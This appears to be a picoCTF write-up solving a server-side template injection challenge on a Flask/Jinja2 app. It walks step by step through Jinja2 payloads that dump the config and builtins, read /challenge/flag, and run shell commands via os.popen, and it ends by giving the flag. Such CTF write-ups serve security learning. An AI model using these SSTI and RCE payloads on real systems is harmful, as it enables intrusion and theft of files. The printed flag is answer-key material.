

We start with a web instance that has a basic user input field to 'announce' something:


As the hint references SSTI, I start with a very common test for template injection with `{{7*7}}`.

In return, we are redirected to `/announce`, and we get a big confirmation for SSTI:


Let's see if we can identify what technology this application is made with. I check the Headers from a response from the server (This can be done with Burp Suite, curl, etc) and there is a `Server` header:
```
Server: Werkzeug/3.0.3 Python/3.8.10
```

Python! Let's check PayloadAllTheThings for some initial payloads, typically Werkzeug is using Jinja2 (you can see this from some searching around the interwebs):


Accessing `builtins` and config seems like a good start, let's start with dumping the config using `{{config.items()}}`.
```
dict_items([('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)])
```

Not much of interest is in this application's config, let's look at the `builtins`! Starting with `{{self.__init__.__globals__.__builtins__}}`:
```
{'__name__': 'builtins', '__doc__': "Built-in functions, exceptions, and other objects.\n\nNoteworthy: None is the `nil' object; Ellipsis represents `...' in slices.", '__package__': '', '__loader__': &lt;class '_frozen_importlib.BuiltinImporter'&gt;, '__spec__': ModuleSpec(name='builtins', loader=&lt;class '_frozen_importlib.BuiltinImporter'&gt;), '__build_class__': &lt;built-in function __build_class__&gt;, ... 'IsADirectoryError'&gt;, 'NotADirectoryError': &lt;class 'NotADirectoryError'&gt;, 'InterruptedError': &lt;class 'InterruptedError'&gt;, 'PermissionError': &lt;class 'PermissionError'&gt;, 'ProcessLookupError': &lt;class 'ProcessLookupError'&gt;, 'TimeoutError': &lt;class 'TimeoutError'&gt;, 'open': &lt;built-in function open&gt;, 'quit': Use quit() or Ctrl-D (i.e. EOF) to exit, 'exit': Use exit() or Ctrl-D (i.e. EOF) to exit, 'copyright': Copyright (c) 2001-2021 Python Software Foundation.
All Rights Reserved.

Copyright (c) 2000 BeOpen.com.
All Rights Reserved.

Copyright (c) 1995-2001 Corporation for National Research Initiatives.
All Rights Reserved.

Copyright (c) 1991-1995 Stichting Mathematisch Centrum, Amsterdam.
All Rights Reserved., 'credits':     Thanks to CWI, CNRI, BeOpen.com, Zope Corporation and a cast of thousands
    for supporting Python development.  See www.python.org for more information., 'license': Type license() to see the full license text, 'help': Type help() for interactive help, or help(object) for help about object.}
```

There is *a lot* of functions in `builtins`, but for file read, `open` is pretty good! It's likely the flag is hidden as a file on the system.

There is also a `sys` module which has some more capabilities.

I take a look at `{{self.__init__.__globals__.sys.__dir__()}}` and look for anything related to files, paths, etc. `__dir__()` is used here to list the functions available inside `sys`, while `__dict__` shows the dictionary key value pairs.
```
['__name__', '__doc__', '__package__', '__loader__', '__spec__', 'addaudithook', 'audit', 'breakpointhook', 'callstats', '_clear_type_cache', '_current_frames', 'displayhook', 'exc_info', 'excepthook', 'exit', 'getdefaultencoding', 'getdlopenflags', 'getallocatedblocks', 'getfilesystemencoding', 'getfilesystemencodeerrors', 'getrefcount', 'getrecursionlimit', 'getsizeof', '_getframe', 'intern', 'is_finalizing', 'setcheckinterval', 'getcheckinterval', 'setswitchinterval', 'getswitchinterval', 'setdlopenflags', 'setprofile', 'getprofile', 'setrecursionlimit', 'settrace', 'gettrace', 'call_tracing', '_debugmallocstats', 'set_coroutine_origin_tracking_depth', 'get_coroutine_origin_tracking_depth', 'set_asyncgen_hooks', 'get_asyncgen_hooks', 'unraisablehook', 'modules', 'stderr', '__stderr__', '__displayhook__', '__excepthook__', '__breakpointhook__', '__unraisablehook__', 'version', 'hexversion', '_git', '_framework', 'api_version', 'copyright', 'platform', 'maxsize', 'float_info', 'int_info', 'hash_info', 'maxunicode', 'builtin_module_names', 'byteorder', 'abiflags', 'version_info', 'implementation', 'flags', 'float_repr_style', 'thread_info', 'meta_path', 'path_importer_cache', 'path_hooks', 'path', 'executable', '_base_executable', 'prefix', 'base_prefix', 'exec_prefix', 'base_exec_prefix', 'pycache_prefix', 'argv', 'warnoptions', '_xoptions', 'dont_write_bytecode', '__stdin__', 'stdin', '__stdout__', 'stdout', '_home', '__interactivehook__']
```

Inside this there are some things related to `path`! We can use `{{self.__init__.__globals__.sys.path}}` to leak the current path:
```
['/challenge', '/usr/local/bin', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']
```

We can see `/challenge` is our path!

Let's have a look at the other `sys` functions related to `path`:
- `meta_path` doesn't have a lot
- `path_importer_cache` has some things of interest!


If we access `path_importer_cache` with `{{self.__init__.__globals__.sys.path_importer_cache}}` we can see `/challenge` is listed as an option:
```
{... '/challenge': FileFinder('/challenge'), ...}
```

Let's access it with `{{self.__init__.__globals__.sys.path_importer_cache['/challenge']}}`:
```
... '_path_cache': {'flag', 'requirements.txt', 'app.py', '__pycache__'} ...
```

We can see a `flag` in `/challenge`! So the path of our flag is `/challenge/flag`.

We can now use the `open` utility from `builtins` earlier to read the file with: `{{self.__init__.__globals__.__builtins__.open('/challenge/flag').read()}}` and get the flag!

Flag: `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}`

### THE MUCH EASIER WAY
I was silly and did NOT scroll down! So I solved it without RCE (for no reason!!!). With this payload (given on PayloadAllTheThings) we get RCE:
```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

We are returned:
```
__pycache__
app.py
flag
requirements.txt
```

Now we can just use `cat flag` to get the flag...
```
{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat%20flag').read()}}
```

_sigh..._
